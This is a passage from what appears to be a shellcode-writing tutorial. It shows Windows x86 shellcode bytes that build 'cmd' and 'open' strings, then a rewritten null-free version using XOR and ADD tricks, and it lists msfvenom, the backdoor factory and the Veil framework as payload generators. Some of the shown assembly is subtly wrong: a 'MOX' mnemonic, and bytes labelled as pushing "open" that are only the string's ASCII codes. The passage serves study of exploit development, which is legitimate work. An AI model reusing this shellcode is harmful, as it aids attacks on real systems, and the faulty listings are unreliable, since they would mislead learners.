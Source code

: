 **Result**<br>
In the previous version of the shellcode, we had the following bytecode:
```
"\x68\x63\x6d\x64\x00"     // PUSH "cmd"
"\x8B\xDC"                 // MOV EBX, ESP

"\x6A\x00"                 // PUSH the string terminator
                           // for 'open'
"\x6B\x6F\x70\x65\x6E"     // PUSH "open"
"\x8B\xCC"                 // MOV ECX, ESP: puts pointer
                           // to open
```
The new bytecode (NULL-free) will be something like the following:
```
"\x33\xDB"                 // XOR EBX,EBX: zero out EBX
"\xBB\x52\x5C\x53\xEF"     // MOX EBX, EF535C52
"\x81\xC3\x11\x11\x11\x11" // ADD EBX, 11111111
                           // (now EBX contains 00646d63)
"\x53"                     // PUSH EBX
"\x8B\xDC"                 // MOV EBX, ESP : puts pointer
                           // to the string

"\x33\xC0"                 // XOR EAX, EAX: zero out EAX
"\x50"                     // PUSH EAX : push the
                           // string terminator
"\x6B\x6F\x70\x65\x6E"     // PUSH "open"
"\x8B\xCC"                 // MOV ECX, ESP: puts pointer
                           // to open

```

###### 6.2.2 Encoder Tools
You can use msfvenom as an encoder tools to do this also

__________________________
## 7. Shellcode and Payload Generators
You can use some powerful tools in order to create some shellcode.
The famous tools that allow us to automatically generate shellcodes and payloads are:
- [msfvenom](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)
- [the backdoor factory](https://github.com/secretsquirrel/the-backdoor-factory)
- [veil-framework](https://github.com/Veil-Framework/)

